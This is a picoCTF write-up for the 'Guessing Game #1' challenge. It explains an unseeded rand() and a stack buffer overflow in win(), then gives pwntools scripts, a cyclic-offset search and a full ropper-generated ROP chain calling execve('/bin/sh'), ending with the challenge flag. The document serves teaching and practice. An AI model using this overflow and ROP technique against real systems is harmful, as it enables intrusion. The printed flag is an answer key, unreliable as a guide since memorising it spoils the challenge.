 # Guessing Game #1

## Introduction

Guessing Game #1 is a 250 point binary-exploitation challenge from picoCTF. The description states:

> I made a simple game to show off my programming skills. See if you can beat it!

We get the executable, the Makefile, and the source.

## Information Gathering

### Hint #1

> Tools can be helpful, but you may need to look around for yourself.

Pretty ambiguous I think. I am not sure what to make of this.

### Hint #2

> Remember, in CTF problems, if something seems weird it probably means something...

Also pretty ambiguous, but I guess we should dive in!

### Vulnerability Mitigations

```shell
$ checksec vuln
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found #(this is a lie?)
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The Makefile suggests no stack canary given the `-fno-stack-protector` flag. We confirm it is not PIE. It's also statically linked which is neat and give us an opportunity to do relative jumps easier.

Using `objdump --syms` I didn't see symbols for `system` or `exec*`, so I am guessing that either the remote server is going to read the flag for us or we need some shellcode. Current thoughts anyways. We need to check the source first.

### Source

`main` is essentially the following loop:

```c
while (1) {
res = do_stuff();
if (res) {
    win();
}
```

`do_stuff` gets a random number using `rand`. Note that it is never seeded using `srand`. `man 3 rand` states that this means it will always have a default seed of 1:

> If no seed value is provided, the rand() function is automatically seeded with a value of 1.

So our random number is not so random; we will get the same number each time. We should be able to figure it out with GDB.


```c
int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;

	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);

	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}
```

Continuing on, we see that if we 'win' we get to the following function. And we can spot the bug. The developer should have limited the call to `fgets` to BUFSIZE (which is a macro for 100), but it is instead 360. So if we get to the `win` function we should be able to overflow the buffer and overrun the return address. Cool, lets do that.

```c
void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}
```

## Solving

If we set a breakpoint on increment (we have symbols, thank you developers!) we can inspect what the expected number is that we need to guess, 0x54 or 84.

```gdb
break increment
finish
p/d $rax
$1 = 84
```

We can do this with pwntools to automate finding this value, which makes it more repeatable in the future. So let's do that in our `./solve.py` script. For whatever reason, when I set the breakpoint on the symbol 'increment', it resolved the wrong address even though 'info sym increment' showed the correct address. I'm not sure what was going on, so I just set the address to the return from `increment` in `main`.

```python
INCREMENT_ADDRESS = 0x00400bbc
with gdb.debug(exe.path, gdbscript=GDB_COMMAND, api=True) as vuln:
        # Add our breakpoint (we could do this in the gdbscript, but I like the API).
        vuln.gdb.Breakpoint('* ' + str(INCREMENT_ADDRESS))

        vuln.gdb.continue_and_wait()

        # Get the selected frame, which will allow us to extract information regarding things like the registers, stack, etc.
        frame = vuln.gdb.selected_frame()

        # Get the return value of increment. This should be the same each time since the developer did not seed rand.
        rax = frame.read_register('rax')

        # Cast as an integer.
        return int(rax.cast(vuln.gdb.lookup_type('long')))
```

Knowing the answer to the first question, we then need to overflow the buffer and control the return address of the function. `checksec` is incorrect in reporting a stack canary, as we don't see any when we decompile it. Using a cyclic pattern and a core dump we find the offset on the stack to the return address:

```python
# Generate a cyclic pattern so that we can auto-find the offset.
payload = cyclic(NUM_CYCLIC_BYTES)

# Send the cyclic pattern
proc.sendlineafter(b'Congrats! You win! Your prize is this print statement!\n', payload)
proc.wait()

# Get the core dump.
core = proc.corefile

# Find our offset.
offset = cyclic_find(pack(core.fault_addr), n=4)
```

With control of the return address, we now need to ROP around to invoke `execve` and open up a shell. Fortunately, `ropper` takes care of this for us. Though note that the output is not in `python3` syntax and you'll have to make a couple modifications (see included `solve.py`):

```shell
$ ropper --file ./vuln --chain "execve cmd=/bin/sh"

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # f01c7ecf217d3cebdf4f676920f17ebfcb33d5d14d78df8dfffed5c5290e6f62
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += '//bin/sh'
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
rop += rebase_0(0x00000000002ba0e0)
rop += rebase_0(0x0000000000010ca3) # 0x0000000000410ca3: pop rsi; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x000000000004cc26) # 0x000000000044cc26: pop rdx; ret;
rop += rebase_0(0x00000000002ba0e8)
rop += rebase_0(0x00000000000163f4) # 0x00000000004163f4: pop rax; ret;
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000049e35) # 0x0000000000449e35: syscall; ret;
print rop
```

If we send this to the program (after padding as appropriate with the offset) then we land a shell.

```python
ropchain = fit ({
	offset: call_execve()
})

io.sendlineafter(b'Name? ', ropchain)
# Get the flag.
io.sendline(b'cat flag.txt')
io.recvline()
io.recvline()
flag = io.recv()
```

We get the flag: `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_44d502016ea374b8}`

## Future Work

It would be neat to implement `ropper` with `pwntools` so you didn't need to copy and paste the ropchain. Also update to `python3`

